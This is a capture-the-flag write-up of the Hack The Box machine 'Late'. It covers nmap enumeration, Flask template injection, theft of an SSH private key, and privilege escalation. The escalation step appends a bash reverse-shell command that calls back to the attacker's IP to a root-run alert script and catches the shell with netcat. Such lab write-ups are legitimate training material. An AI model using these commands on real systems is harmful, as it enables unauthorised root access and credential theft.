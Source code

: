 ```yaml
---
title: '[HTB] Late'
date: 2022-05-29 8:45 PM
categories: [HTB, Machines]
tags: [easy, linux, machines, flask]
permalink: /:categories/:title
img_path: /assets/img/htb/machines/late
---
```


![banner](banner.png) 

## Enumeration

### NMAP

```console
❯ nmap -sV --open 10.10.11.156
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-04 11:19 CEST
Nmap scan report for 10.10.11.156
Host is up (0.084s latency).
Not shown: 961 closed tcp ports (conn-refused), 37 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.54 seconds
```
> We see that port 80 and 22 are open, so we have to go to the website.

### Domains

When we enter the website and look at the source code find this:

![source](source.png) 
_Source code website_


```console
❯ echo "10.10.11.156 late.htb images.late.htb" | sudo tee -a /etc/hosts
```
If we take a look at the domain we will see that there is nothing interesting.

![domain](domain.png) 
_Domain website_

On the subdomain we have an image to text conversor. This website uses Flask, after doing some [research](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee) I know what I need to do.

![subdomain](subdomain.png) 
_Subdomain website_

## Foothold

### Flask injection 

To begin with I'm going to test if this vulnerability works. Using {{ config }} list internal flask configurations, we will give it a try.

![img1](img1.png)
_First image_

After uploading the image we download a txt file with the result. This image gives us the following result, which confirms that it is vulnerable to Flask injection.

![result1](result1.png)
_First result_

Following the instructions from the website that explained the Flask injection, we can do RCE.

![img2](img2.png)
_Second image_

Seeing the file `/etc/passwd`{: .filepath} we can figure out that the username to later start an ssh session with this.

![result2](result2.png)
_Second result_

Now we just extract the OpenSSH private key and we can login. 

![img3](img3.png)
_Final image_

Here is the id_rsa file. 

![result3](result3.png)
_Final result_

### SSH 

```console
❯ ssh -i id_rsa user@late.htb
user@late:~$ id
uid=1000(user) gid=1000(user) groups=1000(user)
user@late:~$ 
```

### Privilege Escalation

If we use linpeas, we can see that in `/usr/local/sbin`{: .filepath} we have a high PE vector.

![linpeas](linpeas.png) 
_linpeas output_

If we go to the directory, there is a script with execute permissions.

Well, they make it easy for us. We introduce a reverse shell in the script and then ssh to localhost to trigger the script, since it is a script that alerts of ssh logins.

```console
user@late:/usr/local/sbin$ ls -l
total 4
-rwxr-xr-x 1 user user 433 Jun  4 09:46 ssh-alert.sh
user@late:/usr/local/sbin$ echo 'bash -i >& /dev/tcp/10.10.16.10/4444 0>&1' >> ssh-alert.sh ; ssh localhost
```

While the netcat is active and when we have used the previous command we will already be inside the root user.

```console
❯ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.11.156] 60668
bash: cannot set terminal process group (27514): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## Conclusion

This machine itself is not difficult but Flask injection makes it  a bit difficult. I had to test the injection with many formats, many times, since the app didn't read it well. Other than that, it is an easy machine.

### Techniques and Tools

1. nmap 
2. linpeas
3. Flask injection 
4. RCE (Remote Code Execution)
5. PE (Privilege Escalation)

